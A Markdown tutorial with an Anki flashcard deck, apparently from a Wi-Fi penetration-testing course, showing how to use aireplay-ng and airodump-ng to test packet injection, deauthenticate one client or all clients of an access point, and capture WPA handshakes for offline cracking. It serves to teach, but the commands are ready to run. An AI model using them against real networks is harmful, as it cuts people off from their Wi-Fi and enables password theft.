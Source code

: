 # Chain #4: Generating Traffic & Deauthentication

This chain explains how to use **Aireplay-ng** to generate traffic and perform deauthentication attacks. Aireplay-ng is essential when we need to:
- Capture WPA/WPA2 4-way handshakes by forcing clients to reconnect.
- Test whether our wireless card supports **packet injection**.
- Simulate client traffic on the target network.

---

## Step 1: Prepare the Wireless Interface

Before using Aireplay-ng, ensure the wireless interface is in **monitor mode** and tuned to the correct channel.

```bash
sudo airmon-ng start wlan0 6
```

- `wlan0` → your wireless interface.
- `6` → the target channel (replace with the real channel).
- The interface will usually be renamed to `wlan0mon`.

**If you're already in monitor mode, retune quickly before deauth/capture:**
```
sudo iw dev wlan0mon set channel <CHANNEL>
```
- Prevents the classic “waiting for beacon on the wrong channel” issue before you deauth or capture handshakes.

**Verify monitor mode:**

```bash
iwconfig
```

Look for `Mode:Monitor` in the output.

---

## Step 2: Test for Packet Injection

Before attacking, confirm your card can inject packets:

```bash
sudo aireplay-ng --test wlan0mon
```

- Aireplay-ng sends test probe requests.
- If you see **"Injection is working!"**, your card supports packet injection.

---

## Step 3: Scan for Access Points and Clients

Use Airodump-ng to identify APs and clients:

```bash
sudo airodump-ng wlan0mon
```

- `BSSID` → MAC address of the AP.
- `CH` → Channel.
- `ESSID` → Network name.
- `STATION` → Clients connected to the AP.

Take note of:
- The **AP BSSID** (target).
- The **client MAC** (optional — for targeted deauth).

---

## Step 4: Perform Deauthentication Attack

### Option A: Target a Specific Client

```bash
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```

- `-0` → deauthentication attack.
- `5` → number of deauth packets to send (`0` = infinite).
- `-a <AP_BSSID>` → target AP MAC address.
- `-c <CLIENT_MAC>` → target client MAC address.
- `wlan0mon` → monitor interface.

This disconnects the specified client, forcing it to reconnect (useful for capturing WPA/WPA2 handshakes).

### Option B: Deauthenticate All Clients

```bash
sudo aireplay-ng -0 10 -a <AP_BSSID> wlan0mon
```

- This disconnects **all clients** connected to the AP.

---

## Step 5: Capture the Handshake

While sending deauth packets, run Airodump-ng to capture the WPA handshake:

```bash
sudo airodump-ng -c <CHANNEL> --bssid <AP_BSSID> -w capture wlan0mon
```

- `-c <CHANNEL>` → lock to the AP’s channel.
- `--bssid <AP_BSSID>` → target AP.
- `-w capture` → write to `capture.cap` file.

Watch for `WPA handshake: <AP_BSSID>` in the top-right corner of Airodump-ng.

---

## Step 6: Notes on Effectiveness

- **Protected Management Frames (PMF)** in WPA3 prevent deauth attacks.
- On WPA2, this is still highly effective.
- If clients reconnect automatically, you’ll capture the handshake quickly.
- If no clients are connected, you may need to **wait** or use another attack (e.g., Evil Twin).

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

G1x7tF9dL3	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Which Aireplay-ng command is used to test whether the interface <code>wlan0mon</code> supports packet injection?	<code>sudo aireplay-ng --test wlan0mon</code>	wifi
H4p2cJ8mT6	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Which Aireplay-ng command deauthenticates the client <code>11:22:33:44:55:66</code> from the access point <code>AA:BB:CC:DD:EE:FF</code> using interface <code>wlan0mon</code>, sending 10 deauth packets?	<code>sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon</code>	wifi
I5m9vK6qR1	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Which Aireplay-ng command deauthenticates all clients from the access point <code>AA:BB:CC:DD:EE:FF</code> using interface <code>wlan0mon</code>, sending 10 deauth packets?	<code>sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon</code>	wifi
J2s8xH4nL7	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Which Airodump-ng command captures packets on channel 6 from AP <code>AA:BB:CC:DD:EE:FF</code>, saving output to the file <code>capture</code>, using interface <code>wlan0mon</code>?	<code>sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon</code>	wifi
K0z3bD7pV8	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Which Airmon-ng command puts the interface <code>wlan0mon</code> into monitor mode on channel 6?	<code>sudo airmon-ng start wlan0mon 6</code>	wifi

L2e6nF7tL1	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	In Wi-Fi penetration testing, what is meant by a “deauthentication attack,” and what is its typical purpose?	An attack that forces clients to disconnect from an AP by sending spoofed deauth frames, often used to capture WPA handshakes.	wifi
M5m0xJ8rQ2	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	In Wi-Fi security testing, what does the term “packet injection” mean?	The ability of a Wi-Fi card to craft and transmit custom frames into a wireless network.	wifi
N3t4bH9qP7	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What is a WPA handshake in wireless networking, and why is capturing it important for penetration testing?	A 4-packet exchange between a client and AP when connecting to a WPA/WPA2 network. Capturing it allows offline password cracking.	wifi
O1p9dK6mR5	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Why are traditional deauthentication attacks ineffective against WPA3-protected networks?	Because WPA3 uses Protected Management Frames (PMF), which authenticate and protect management frames like deauth packets.	wifi
P8q7fM2nL6	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	In Aireplay-ng, what is the purpose of the <code>-0</code> option when running an attack?	It initiates a deauthentication attack.	wifi
mQ6eV9tLrB	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Which iw command quickly retunes the monitor interface <code>wlan0mon</code> to channel 1 before launching a deauthentication attack?	<code>sudo iw dev wlan0mon set channel 1</code>	wifi
```